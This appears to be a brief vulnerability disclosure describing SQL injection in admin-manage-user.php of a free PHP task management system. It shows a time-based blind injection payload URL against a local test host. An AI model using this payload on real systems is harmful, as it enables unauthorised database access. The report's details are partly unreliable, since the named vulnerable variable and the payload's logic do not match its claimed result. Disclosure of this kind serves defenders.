



# php task management system free download - SQL

# SQL injection

In the admin-manage-user.php file, it was found that \$action\_id is directly concatenated onto the SQL statement.
Construct payload.

`http://192.168.3.182/admin-manage-user.php?delete_user=123123&admin_id=(IF(1=2,sleep(2),100000)) `responded in 60122 milliseconds.

`http://192.168.3.182/admin-manage-user.php?delete_user=123123&admin_id=(IF(1=2,sleep(2),100000)) `responded in 60122 milliseconds.

